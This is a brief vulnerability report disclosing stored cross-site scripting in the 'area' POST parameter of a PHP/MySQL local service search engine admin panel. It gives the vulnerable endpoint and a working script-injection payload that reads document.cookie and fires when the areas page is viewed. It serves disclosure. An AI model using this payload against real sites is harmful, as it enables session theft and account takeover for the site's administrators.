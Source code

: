 # Local Service Search Engine Management System v1.0 has stored cross-site scripting

BUG_Author: sikii

Website source code address: https://www.sourcecodester.com/php/14607/local-service-search-engine-management-system-using-phpmysqli-source-code.html

Vulnerability File: /lssems/admin/ajax.php?action=save_area

POST parameter "area" exists stored cross-site scripting vulnerability

Payload: id=&area=<script>alert(document.cookie)</script>

![image](https://github.com/sikii7/CVE/blob/main/pic/xss1.png)

Payload will trigger when a user visits on http://localhost/lssems/admin/index.php?page=areas

![image](https://github.com/sikii7/CVE/blob/main/pic/xss2.png)
